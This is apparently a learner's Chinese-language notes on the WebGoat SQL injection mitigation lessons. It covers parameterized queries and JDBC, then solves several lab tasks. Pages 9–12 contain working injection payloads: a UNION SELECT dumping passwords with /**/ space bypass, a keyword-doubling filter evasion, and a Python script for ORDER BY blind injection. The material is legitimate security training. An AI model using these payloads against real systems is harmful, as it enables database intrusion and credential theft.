# 1  

## Immutable Queries
非常稳定的查询，对抗SQL注入的有效方法  


Static Queries  
Parameterized Queries  
Stored Procedures

# 2  

给了两个不同的存储过程，第二个查询语句是直接把要查询的内容以字符串的形式和查询语句拼接，容易sql注入  

# 3  


## JDBC  

### DriverManger  
1. 注册驱动  

2. 获取链接 getConnection方法  
getConnection(string url, string user, string password)，返回一个Connection对象  
使用mysql时url的协议是jdbc:mysql，默认ip是localhost,默认端口3306  

### Connection  

1. 返回对象的三个方法  
createStatement(),Statemnet对象  
prepareStatement(),返回PrepareStatement()对象  
prepareCall(),返回CallableStatement对象  
传入sql语句字符串，返回


### Statement  

1. 执行sql语句  
executeUpdate()，执行update,delete等，返回int类型，改变的行数  
executeQuery()，查询语句，执行对数据的查询操作  
execute()，任何语句  

## Parameterized Queries - Java Snippet  

```java  
public static bool isUsernameValid(string username) {
    RegEx r = new Regex("^[A-Za-z0-9]{16}$");
    return r.isMatch(username);
}
```  
定义了一个函数来检查用户名是否符合要求，使用了正则表达式，RegEx类中的isMath用来检查是否符合正则表达式重点是下面关于参数化查询  


```java  
// java.sql.Connection conn is set elsewhere for brevity.
PreparedStatement ps = null;
RecordSet rs = null;
try {
    pUserName = request.getParameter("UserName");
    if ( isUsernameValid (pUsername) ) {
        ps = conn.prepareStatement("SELECT * FROM user_table WHERE username = ? ");
        ps.setString(1, pUsername);
        rs = ps.execute();
        if ( rs.next() ) {
            // do the work of making the user record active in some way
        }
    } else {
        // handle invalid input
    }
}
catch (...) {
     // handle all exceptions ...
      }  
```  
1. SQL创建PreparedStatement对象时预编译，之后多次调用不用编译
2. set函数，在指定的占位符处传入参数，强制类型转换，第一个参数是传入位置，从1开始，第二个是参数是传入数据，有setString,setInt等  
3. request.getParameter,获取请求的参数值  
4.  conn.prepareStatement，conn是java.sql.Connection别名，返回一个PreparedStatement对象  
5. RecordSte,用来记录sql语句执行后的返回结果  
6. PreparedStatement execute()，用来执行任何sql语句返回结果，还有其他类似函数，executeQuery()执行查询语句，executeUpdate()执行更新语句 
7. rs.next,sql查询的结果通常是一个表格，会有一个指针指向表格的头部，next会将指针往下移动一行，如果成功移动返回ture，反之返回faulse

如果把要查询的内容和要执行的sql语句拼接成完整的sql语句，就容易被注入，参数查询把要查询的内容以参数的形式给sql查询语句而不是用字符串的形式拼接，就能有效防止sql插入，预处理是先把sql语句编译，然后在把参数插入，用到占位符。这段代码先定义了一个PreparedStatement对象ps，然后用setString的方式将username作为字符串插入sql语句。  

## Important  

要正确使用预处理查询，参数会用set函数设置  
```java  

String insertStatement = "INSERT INTO USERS (id, name, email) VALUES (%s, %s, %s)".format("1", "webgoat", "webgoat@owasp.org");
PreparedStatement statement = conn.prepareStatement(insertStatement);
statement.executeUpdate();  
```  
这里大概是要用问号来占位，用别的不可以。  

下面的是可以的  
```java  
PreparedStatement statement = conn.prepareStatement("INSERT INTO USERS (id, name, email) VALUES (?, ?, ?)");
statement.setString(1, "1");
statement.setString(2, "webgoat");
statement.setString(3, "webgoat@owasp.org");
statement.executeUpdate();
```  

# 4  
另一个Java的例子  

# 5  

要求补充为一段可以防御sql注入的代码  
逻辑就是首先链接数据库，然后预处理，最后传入参数  
  

# 6  
写一段代码，和第五页差不多，但是提交的时候报错了  
```  
Cannot invoke "javax.tools.JavaCompiler.getStandardFileManager(javax.tools.DiagnosticListener, java.util.Locale, java.nio.charset.Charset)" because "compiler" is null
```  
查了一下，可能是docker构建镜像是的问题  

# 7  
一个代码示例，使用了SqlConnection接口  

# 8  
即使代码已经尽可能的避免被注入，但是也要验证输入，防止一下攻击  

- Stored XSS

- Information leakage

- Logic errors - business rule validation

- SQL injection  

# 9  

要查user_system_data的内容  
  

1. 直接注入，报错说不允许使用空格  
  

2. 找到一种方法，用注释的话，sql在执行时会换成空格，将空格换成/**/，  
  

3. 使用下面的方式可以成功注入  
```
d'/**/union/**/select/**/userid,user_name,password,password,password,password,userid/**/from/**/user_system_data;--/**/
```  
  

# 10  

和第九页一样的要求  

1. 直接注入，不仅过滤空格，还过过滤sql关键字  
  

2. 使用下面的语句注入，就是上一页的答案  
```
d'/**/union/**/select/**/userid,user_name,password,password,password,password,userid/**/from/**/user_system_data;--/**/  
```
  

发现过滤掉了select，from等关键字  

3. 有一种方法是重组字符串，比如要插入select，那么可以输入sselectelect，过滤掉中间的select后，剩下的任然是select  

4. 下面是注入语句  
```  
d'/**/union/**/sselectelect/**/userid,user_name,password,password,password,password,userid/**/ffromrom/**/user_system_data;--/**/ 
```  
  

# 11  
order by的注入  

关于一个order by的注入举例  
```sql
SELECT * FROM users ORDER BY (CASE WHEN (TRUE) THEN lastname ELSE firstname)
```  
when后面的条件可以根据需要填写，那么可以根据排序的顺序判断猜测是否正确  

# 12  

题目要求用order by注入，来查找一个ip地址，只要找前三位就可以了  
  
 
1. 题目可以根据需求排序，比如按ip，hostname排序，排序后抓包  
  
  
发现用get请求穿了一个参数column,猜测是将column的值拼接到order by后面  
再看响应，有许多页面中没有显示的信息，比如id
  

2. 用substring来取特定位置的数字，要注入的内容为  
```
(case+when+(substring((select+ip+from+servers+where+hostname='webgoat-prd'),{i},1)='{j}')+then+id+else+hostname+end)--+
```  
url编码中加号是空格，sql中注释必须空一格，所以最后也要加号  

3. 编写脚本  
```python  
import requests


url="http://192.168.88.1:8080/WebGoat/SqlInjectionMitigations/servers"
header={"Cookie":"JSESSIONID=cF6vfzOwxdghxONlL0NwaTB3n_rDsWI3y2YooCTy","Accept-Language":"zh-CN,zh;q=0.9","Accept-Encoding":"gzip, deflate","X-Requested-With":"XMLHttpRequest","User-Agent":"Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/133.0.0.0 Safari/537.36","Accept":"*/*"}

t=""

for i in range(0,4):
    for j in range(0,10):
        getdata=f"(case+when+(substring((select+ip+from+servers+where+hostname='webgoat-prd'),{i},1)='{j}')+then+id+else+hostname+end)--+"
        res=requests.get(f"{url}?column={getdata}",headers=header)
        t=res.text
        if(t[14]=="1"):
            print(j,end="")


```  
  